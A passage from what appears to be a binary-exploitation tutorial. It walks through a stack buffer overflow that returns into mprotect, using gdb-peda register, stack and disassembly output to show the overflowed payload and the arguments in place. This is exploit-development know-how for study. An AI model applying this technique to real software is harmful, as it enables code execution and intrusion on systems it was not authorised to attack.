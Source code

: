 
Break at **func**. You have to take input from **exploit.txt**. So, **gdb-peda$ run < exploit.txt** is an important step. 

Let us continue till the end of the function - just before **ret** is executed. The following is the state just before **ret** is executed. 

    [----------------------------------registers-----------------------------------]
    EAX: 0xffffcbbc ('a' <repeats 112 times>, "\240]\355\367cccc")
    EBX: 0x0 
    ECX: 0xf7fa55a0 --> 0xfbad2098 
    EDX: 0xf7fa687c --> 0x0 
    ESI: 0xf7fa5000 --> 0x1b1db0 
    EDI: 0xf7fa5000 --> 0x1b1db0 
    EBP: 0x61616161 ('aaaa')
    ESP: 0xffffcc2c --> 0xf7ed5da0 (<mprotect>:	push   ebx)
    EIP: 0x8048452 (<func+23>:	ret)
    EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    0x804844d <func+18>:	add    esp,0x10
    0x8048450 <func+21>:	nop
    0x8048451 <func+22>:	leave  
    => 0x8048452 <func+23>:	ret    
    0x8048453 <main>:	lea    ecx,[esp+0x4]
    0x8048457 <main+4>:	and    esp,0xfffffff0
    0x804845a <main+7>:	push   DWORD PTR [ecx-0x4]
    0x804845d <main+10>:	push   ebp
    [------------------------------------stack-------------------------------------]
    0000| 0xffffcc2c --> 0xf7ed5da0 (<mprotect>:	push   ebx)
    0004| 0xffffcc30 ("cccc")
    0008| 0xffffcc34 --> 0xfffdc000 --> 0x0 
    0012| 0xffffcc38 --> 0x22000 
    0016| 0xffffcc3c --> 0x7 
    0020| 0xffffcc40 --> 0xf7fa5000 --> 0x1b1db0 
    0024| 0xffffcc44 --> 0xf7fa5000 --> 0x1b1db0 
    0028| 0xffffcc48 --> 0x0 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    0x08048452 in func ()
    gdb-peda$ 

Look at the Stack. Everything is as planned. 

The Top of Stack is **mprotect**'s address. It's Return Address is **cccc** or 0x63636363. The arguments have been put into the stack properly. 

The only thing left is to execute **mprotect** and check if we successfully change the permissions or not. 

**mprotect**'s manpage tells that it returns **0** on success and **-1** on error. The following is the disassembly of mprotect. 

    gdb-peda$ disass mprotect
    Dump of assembler code for function mprotect:
    0xf7ed5da0 <+0>:	push   ebx
    0xf7ed5da1 <+1>:	mov    edx,DWORD PTR [esp+0x10]
    0xf7ed5da5 <+5>:	mov    ecx,DWORD PTR [esp+0xc]
    0xf7ed5da9 <+9>:	mov    ebx,DWORD PTR [esp+0x8]
    0xf7ed5dad <+13>:	mov    eax,0x7d
    0xf7ed5db2 <+18>:	call   DWORD PTR gs:0x10
    0xf7ed5db9 <+25>:	pop    ebx
    0xf7ed5dba <+26>:	cmp    eax,0xfffff001
    0xf7ed5dbf <+31>:	jae    0xf7e0b730
    0xf7ed5dc5 <+37>:	ret    
    End of assembler dump.
